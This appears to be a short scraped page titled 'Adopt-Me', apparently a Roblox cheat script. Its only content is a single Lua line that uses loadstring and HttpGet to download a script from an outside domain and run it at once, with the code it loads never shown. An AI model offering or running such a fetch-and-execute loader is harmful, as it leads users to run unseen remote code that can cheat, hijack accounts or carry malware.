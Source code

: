 # Adopt-Me



loadstring(game:HttpGet("https://egorikusa.space/27f07e021bce084b4b9689f6.lua", true))()
